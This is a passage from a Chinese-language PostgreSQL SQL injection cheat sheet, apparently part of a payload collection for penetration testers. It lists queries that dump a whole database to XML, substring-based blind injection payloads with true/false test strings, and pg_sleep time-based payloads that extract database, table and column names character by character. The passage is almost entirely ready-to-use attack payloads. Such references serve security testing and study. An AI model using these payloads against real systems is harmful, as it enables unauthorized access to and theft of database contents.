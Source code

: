 ```sql
SELECT database_to_xml(true,true,''); -- 将当前数据库转储到XML
SELECT database_to_xmlschema(true,true,''); -- 将当前数据库转储为XML模式
```

注意，对于上述查询，输出需要在内存中组装。对于较大的数据库，这可能会导致性能下降或服务中断。

## PostgreSQL 盲注

### PostgreSQL 带有子字符串等价的盲注

| 函数    | 示例                                         |
| ------- | ------------------------------------------- |
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`           |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        |
| `SUBSTRING` | `SUBSTRING('foobar' FROM <START> FOR <LENGTH>)` |

示例：

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -- TRUE
' and substr(version(),1,10) = 'PostgreXXX' and '1  -- FALSE
```

## PostgreSQL 基于时间的注入

### 确认基于时间的注入

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

### 基于时间的数据库转储

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

### 基于时间的表转储

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

### 基于时间的列转储

```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```
